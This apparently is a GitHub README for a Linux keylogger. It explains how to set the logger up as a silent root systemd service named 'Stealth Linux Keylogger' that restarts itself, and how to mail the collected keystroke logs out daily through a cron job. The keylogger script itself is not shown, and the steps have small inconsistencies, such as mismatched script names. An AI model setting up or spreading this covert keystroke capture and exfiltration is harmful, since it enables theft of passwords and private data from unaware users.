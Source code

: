 # Linux Based Persistent Keylogger with mailing
This is a Linux based keylogger which starts at startup and runs in the background. Saves the output of every key stroke in a file and mails the file automatically in every 24 hours cycle to the admin.

## Project Structure
```
  /usr/local/bin/
 ├── keylogger.sh          # Main keylogger script (background)
 ├── mail_keylog.sh        # Email script (sends logs daily)
  /etc/systemd/system/
 ├── keylogger.service     # Systemd service for persistence
  /var/log/keylogger/      # Directory storing keystroke logs
```
## Features
1. Runs in the background silently
2. Logs all keystrokes into a file (/var/log/keylogger/YYYY-MM-DD.log)
3. Persists after reboot (via systemd service)
4. Sends daily logs to admin via email (via cron job)
5. Auto-restarts if stopped

## Installation & Setup
1. Install Dependencies
   ```
   - sudo apt update && sudo apt install evtest mailutils -y  #Debian
   - sudo yum install evtest mailx -y #RHEL
   ```
3. Identify the Keyboard Device
   ```
   - sudo evtest
   ```
      - Then check for the keyboard device #Example: /dev/input/event1:	AT Translated Set 2 keyboard
         - Press keys to check response. Once identified, update /dev/input/eventX in the script.

## Keylogger Script
1. Create the script here: ``` sudo nano /usr/local/bin/keylogger.sh ```
2. Then make it executable with: ``` chmod +x /usr/local/bin/keylogger.sh ```

## Making the Keylogger Persistent
1. Create a systemd service
   ```
   - sudo nano /etc/systemd/system/keylogger.service
   ```
2. Paste the following:
 ```
[Unit]
Description=Stealth Linux Keylogger
After=network.target

[Service]
Type=simple
ExecStart=/usr/local/bin/keylogger.sh
Restart=always
User=root
StandardOutput=null
StandardError=null

[Install]
WantedBy=multi-user.target
```
3. Enable and start the service
   ```
    - sudo systemctl daemon-reload
    - sudo systemctl enable keylogger
    - sudo systemctl start keylogger
   ```
4. Verify if its running
   ```
   sudo systemctl status keylogger
   ```

## Emailing the logs every 24 hours with cron jobs
1. Create the email script
   ```
   sudo nano /usr/local/bin/mail_keylog.sh
   ```
2. Make it executable
   ```
   sudo chmod +x /usr/local/bin/send_keylog.sh
   ```
3. Schedule the cron job daily at midnight
   ```
   sudo crontab -e
   ```
   Then add the following
   ```
   0 0 * * * /usr/local/bin/mail_keylog.sh
   ```
4. Restart cron service
   ```
   sudo systemctl restart cron
   ```

## Further Enhancement
-  Making the script immutable – Use chattr +i to prevent any unauthorized modifications to the script.
-  Access Control – Restrict access to the script and log files using ACLs (setfacl) to ensure only authorized users can read or modify them.
-  Log Integrity Verification – Implement SHA256 hashing for log files, allowing us to verify that the logs have not been tampered with.
